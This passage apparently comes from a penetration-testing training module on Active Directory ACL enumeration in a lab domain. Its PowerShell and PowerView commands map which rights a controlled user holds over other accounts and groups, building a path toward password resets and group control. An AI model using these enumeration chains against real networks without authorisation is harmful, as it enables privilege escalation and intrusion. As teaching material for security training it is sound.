This example is not very efficient, and the command can take a long time to run, especially in a large environment. It will take much longer than the equivalent command using PowerView. In this command, we've first made a list of all domain users with the following command:

**Creating a List of Domain Users**

ACL Enumeration

```powershell-session
PS C:\htb> Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
```

We then read each line of the file using a `foreach` loop, and use the `Get-Acl` cmdlet to retrieve ACL information for each domain user by feeding each line of the `ad_users.txt` file to the `Get-ADUser` cmdlet. We then select just the `Access property`, which will give us information about access rights. Finally, we set the `IdentityReference` property to the user we are in control of (or looking to see what rights they have), in our case, `wley`.

**A Useful foreach Loop**

ACL Enumeration

```powershell-session
PS C:\htb> foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}

Path                  : Microsoft.ActiveDirectory.Management.dll\ActiveDirectory:://RootDSE/CN=Dana 
                        Amundsen,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
InheritanceType       : All
ObjectType            : 00299570-246d-11d0-a768-00aa006e0529
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : ObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : INLANEFREIGHT\wley
IsInherited           : False
InheritanceFlags      : ContainerInherit
PropagationFlags      : None
```

Once we have this data, we could follow the same methods shown above to convert the GUID to a human-readable format to understand what rights we have over the target user.

So, to recap, we started with the user `wley` and now have control over the user `damundsen` via the `User-Force-Change-Password` extended right. Let's use Powerview to hunt for where, if anywhere, control over the `damundsen` account could take us.

**Further Enumeration of Rights Using damundsen**

ACL Enumeration

```powershell-session
PS C:\htb> $sid2 = Convert-NameToSid damundsen
PS C:\htb> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose

AceType               : AccessAllowed
ObjectDN              : CN=Help Desk Level 1,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ListChildren, ReadProperty, GenericWrite
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3842939050-3880317879-2865463114-4022
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1176
```